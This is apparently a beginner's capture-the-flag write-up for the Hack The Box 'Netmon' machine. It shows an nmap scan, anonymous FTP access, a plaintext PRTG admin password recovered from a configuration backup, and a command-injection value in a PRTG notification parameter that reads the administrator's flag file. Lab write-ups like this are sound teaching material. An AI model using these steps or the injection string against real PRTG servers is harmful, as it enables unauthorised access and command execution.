 # Hack The Box
## Netmon

### Introduction
Task in Hack The Box consisit of two flags: user flag and owner flag, which corresponds to both user and admin level permission. This task, Netmon, is a very beginner level task that introduce us to the CTF world.

### User Flag -- Steps
1. Connecting to the machine, we can see the page is an PRTG monitor page, which has a login page.
    ![web interface](./images/HTB/netmon/img1.png)
1. Searching for default password, but failed.
    > Login Name: prtgadmin
    > Password: prtgadmin
1. After trying some SQL injections on the fields, seems the web portal does not have an injection bug. Has to try other ways. Lets see if it has any other openong ports:
    > # nmap -sV [netmon_ip]
    > Nmap scan report for [netmon_ip]
    > Host is up (0.31s latency).
    > Not Shown: 995 closed ports
    > PORT    STATE    SERVICE    VERSION
    > 21/tcp  open     ftp        
    > 80/tcp  open     http
    > ...
1. and we could see there is a ftp port open to us. Again, lets try anonymous account:
    > # ftp [netmon_ip]
    > Name: anonymous
    > 331 Anonymous access allowed, send identity (e-mail name) as password.
    > Password: (no password)
    > 230 User logged in.
    > ftp>
1. Great! Thanks to wrong configuration, anonymous account is accessible. and we can not get the user flag:
    > ftp> cd "Users/Public/"
    > ftp> ls
    > 200 PORT command successful.
    > ...
    > 02-03-19 12:35AM        33 user.txt
    > ...
    > ftp> get user.txt
1. There we are the flag for the user level.

### Admin Flag -- Steps
1. After er get the user flag, we could continue browse if we can access the admin flag also (you know, sometimes things works just like that):
    > ftp> cd "/Users/Administrator"
    > 550 Access is denied.
1. Okay, so it turns out to be not so easy. After searchong, I found there is a [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) talking about saving the password in plaintext in earlier versions of PRTG monitor. Therefore, I downloaded all the mentioned files:
    > ftp> cd "/ProgramData/Paessler/PRTG Network Monitor/"
    > ftp> get "Configurations/AutoBackups"
    > ftp> get "PRTG Configuration.dat"
    > ftp> get "PRTG Configuration.old"
    > ftp> get "PRTG Configuration.old.bak"
1. And Check them one by one. Well, most of them didn't show the password, seems the system upgraded. But looks like somebody does not remember to clean up the backup of the old configurations, and the password is in "PRTG Configuration.old.bak" file:
    > <dbpassword>
    >   <!-- User: prtgadmin -->
    >   PrTg@dmin2018
    > </dbpassword>
1. How nice they are to give us the username also! But sadly it is not an account for the ftp server. But we can notice that the username is same as default username of the web portal, so maybe that is an entrence. Shockingly, it happens also not to be the password. but we may twist that "2018" to be "2019", and it brings us to the inside.
    ![web logged in](./images/HTB/netmon/img2.png)
1. But I don't know what should be used with this hack, so I search the web again. and I found another [post](https://www.codewatch.org/blog/?p=453) that tells that there is a place that we can do remote code execution:
  1. Go to "Setup>Account Settings>Notifications>new notification"
  1. Add new Notification with "Execute Program", set parameter to be exploit code:
      > test.txt; more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
      ![new Notification](./images/HTB/netmon/img4.png)
  1. save and return.
  1. Find a sensor that matches the requirement for sending a "notification" (in this case there is a always-down sensor which can let me set a "notify when down" rule)
  1. Add the newly added notification and wait for execute
      ![sensor notification](./images/HTB/netmon/img5.png)
  1. Then wait a while and there should be a log triggered telling us that the meal is ready.
      ![log](./images/HTB/netmon/img6.png)
1. After execute, fetch the file using ftp again, and we can now find the code.
    > ftp> ls
    > 200 PORT command successful.
    > ...
    > 02-03-19 12:35AM        33 output.txt
    > ...
    > ftp> get output.txt

### Conclusion
- This is my first time to do a CTF, so it is really challenging although the tasks are extremely easy. the road is still very long.
- We should learn that this is a sensor monitor/adminstrating panel, so executing a program would be a normal feature to have, and exploit code execution usually starts here.
- Of course, we should config to not use any default credentials, and close all unnessary ports to avoid any penetration.
- There are some cve posts on google giving exploit, I tried to use them but failed. mostly is because it needs a msfvenom host, which i don't know how to config. but there is still other way around.
- Thank you for reading till here. Hope you had fun!
